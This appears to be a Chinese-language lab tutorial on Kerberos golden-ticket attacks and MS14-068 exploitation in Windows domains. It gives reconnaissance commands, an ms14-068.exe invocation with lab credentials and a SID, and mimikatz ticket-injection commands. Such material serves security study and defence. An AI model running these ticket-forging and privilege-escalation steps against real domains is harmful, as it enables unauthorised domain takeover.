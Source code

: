   * 黄金票据
  * 白银票据

### 0x3-1 黄金票据原理：

在 Kerberos 认证中,Client 通过 AS(身份认证服务)认证后,AS 会给 Client 一个Logon Session Key 和
TGT,而 Logon Session Key 并不会保存在 KDC 中，krbtgt 的NTLM Hash 又是固定的,所以只要得到 krbtgt 的
NTLM Hash，就可以伪造 TGT 和Logon Session Key 来进入下一步 Client 与 TGS 的交互。而已有了金票后,就跳过AS
验证,不用验证账户和密码,所以也不担心域管密码修改。

 **特点：** 不需要与 AS 进行交互，需要用户 krbtgt 的 Hash。

在讲黄金票据之前先讲： **MS14-068**

MS14-068是密钥分发中心（KDC）服务中的Windows漏洞。它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC（表示所有用户权限的结构）。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos
TGT来获得票证。

    
    
    # MS14-068.exe   
    https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068  
    

先查看是否打补丁(KB3011780)来判断是否存在漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20220220001712.png)

收集域成员的SID与域管账号及域名称：

    
    
    whoami /all   
    whoami /user #只单独查询SID  
      
    net time #获取域管账号  
    net config workstation #获取域信息  
    nltest /dsgetdc:GOD #获取域管信息  
      
    ms14-068.exe -u 域成员名@域名 -p 域成员密码 -s 域成员 sid -d 域控制器地址  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001713.png)![](https://gitee.com/fuli009/images/raw/master/public/20220220001714.png)![](https://gitee.com/fuli009/images/raw/master/public/20220220001715.png)![]()

    
    
    ms14-068.exe -u liukaifeng01@god.org -p hongrisec@2020 -s S-1-5-21-2952760202-1353902439-2381784089-1000 -d OWA.god.org  
    

这里用的是别的环境

![](https://gitee.com/fuli009/images/raw/master/public/20220220001716.png)

在票据未导入前，是无法查看域控的C盘，我们可以使用mimikatz来导入票据

    
    
    kerberos::purge  #清空票据  
    kerberos::ptc 票据文件地址 #导入票据  
    kerberos::list #查看票据  
    